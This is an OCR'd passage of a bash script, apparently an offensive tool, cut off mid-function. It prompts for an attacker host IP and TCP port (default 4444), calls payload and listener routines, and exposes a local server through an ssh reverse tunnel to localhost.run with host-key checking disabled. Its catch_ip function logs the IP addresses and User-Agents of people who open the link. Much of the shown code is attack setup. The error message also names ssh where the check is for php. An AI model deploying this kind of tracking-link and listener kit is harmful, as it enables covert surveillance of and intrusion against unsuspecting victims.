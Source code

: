 command -v php > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }
forward=true
#settings
settings2
ngrok_server
#server
payload
#direct_link
listener
elif [[ $option_server -eq 1 ]]; then
printf "\e[1;91m-----\e[0m\n"
read -p $'\e[1;92m{\e[0m\e[1;77m+\e[0m\e[1;92m} HOST IP: \e[0m\n=>>> ' custom_ip
if [[ -z "$custom_ip" ]]; then
exit 1
fi
server_tcp=$custom_ip
read -p $'\e[1;92m{\e[0m\e[1;77m+\e[0m\e[1;92m} TCP port (default:4444): \e[0m\n=>>> ' custom_port
#printf "\e[1;91m-----\e[0m\n"
if [[ -z "$custom_port" ]]; then
exit 1
fi
server_port=$custom_port
settings2
payload
listener
else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
sleep 1
clear
start
fi

}

server() {

printf "\e[1;77m[\e[0m\e[1;93m+\e[0m\e[1;77m] Starting localhost.run server...\e[0m\n"

if [[ $subdomain_resp == true ]]; then

ssh -T -tt -o StrictHostKeyChecking=no -R 80:localhost:3333 "$subdomain"@ssh.localhost.run > sendlink &
sleep 4
else
$(which sh) -c 'ssh -t -t -o StrictHostKeyChecking=no  -R 80:localhost:3333 ssh.localhost.run 2> /dev/null > sendlink ' &
sleep 4
fi

}

catch_ip() {

ip=$(grep -a 'IP:' ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
device=$(grep -o 'User-Agent:.*' ip.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $device
cat ip.txt >> saved.ip.txt
rm -rf ip.txt
}
